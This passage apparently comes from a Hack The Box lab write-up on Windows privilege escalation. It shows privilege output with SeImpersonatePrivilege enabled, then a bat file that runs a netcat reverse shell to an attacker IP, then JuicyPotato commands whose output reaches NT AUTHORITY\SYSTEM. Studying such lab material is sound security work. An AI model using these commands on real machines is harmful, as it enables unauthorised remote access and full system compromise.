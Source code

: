 ```bash
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
BUILTIN\IIS_IUSRS                    Alias            S-1-5-32-568 Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
                                     Unknown SID type S-1-5-82-0   Mandatory group, Enabled by default, Enabled group

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

**Here we see `SeImpersonatePrivilege` is enabled. We need to do Token Impersonation attack.**

We can use JuicyPotato for Token Impersonation attack from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#juicy-potato-abusing-the-golden-privileges)

First I downloaded [JuicyPotato.exe](https://github.com/ohpe/juicy-potato/releases) to my machine.

We need to get a normal shell instead of PowerShell. Get nc.exe [here](https://github.com/int0x33/nc.exe/blob/master/nc.exe). Upload it to the box and get revere shell.

![Shttps://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-silo/Untitled%208.png](Shttps://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-silo/Untitled%208.png)

I created a bat file that executes nc and give me shell.

```bash
C:\TEMP>echo C:\TEMP\nc.exe -e cmd.exe 10.10.14.9 1232 > rev.bat
echo C:\TEMP\nc.exe -e cmd.exe 10.10.14.9 1232 > rev.bat
```

Then I ran `JuicyPotato` and it executes `bat` file

```bash
C:\TEMP>juicypotato.exe -p C:\TEMP\rev.bat -l 1232 -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
juicypotato.exe -p C:\TEMP\rev.bat -l 1232 -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
Testing {e60687f7-01a1-40aa-86ac-db1cbf673334} 1232
......
[+] authresult 0
{e60687f7-01a1-40aa-86ac-db1cbf673334};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

C:\TEMP>
```
